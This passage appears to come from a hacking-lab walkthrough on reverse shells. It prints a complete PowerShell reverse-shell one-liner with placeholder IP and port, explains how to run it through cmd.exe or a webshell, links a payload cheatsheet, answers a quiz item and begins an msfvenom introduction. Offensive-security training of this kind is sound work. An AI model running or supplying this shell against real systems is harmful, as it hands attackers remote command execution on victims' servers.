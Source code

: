 When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

![task8-lvnp](./images/task8-lvnp.png)

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.

### Answer the questions below

* What command can be used to create a named pipe in Linux?

	`mkfifo`

* Look through the linked Payloads all the Things Reverse Shell Cheatsheet and familiarise yourself with the languages available.

## Task 9 - msfvenom

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. `.exe`, `.aspx`, `.war`, `.py`). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.
